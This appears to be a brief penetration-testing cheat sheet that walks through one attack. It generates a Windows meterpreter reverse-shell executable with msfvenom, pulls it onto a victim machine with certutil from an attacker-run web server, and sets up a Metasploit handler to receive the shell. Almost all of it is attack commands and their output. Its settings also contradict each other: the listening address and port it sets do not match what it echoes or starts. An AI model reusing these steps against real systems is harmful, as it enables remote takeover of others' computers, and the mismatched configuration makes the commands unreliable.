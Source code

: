 ## Generate and Download Executable on Victim Host

* generate exe - `msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.97.132 LPORT=9000 -f exe > exploit.exe`
* download file to victim `certutil -urlcache -split -f "http://10.10.97.132:8000/exploit.exe" exploit.exe`
```
****  Online  ****
  000000  ...
  01204a
CertUtil: -URLCache command completed successfully.
```

## Msfconsole

```
msf5 > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set LHOST 10.10.37.213
LHOST => 10.10.97.132
msf5 exploit(multi/handler) > set RPORT 9000
RPORT => 9000
msf5 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.37.213:4444 

```

* run `exploit.exe` on victim 




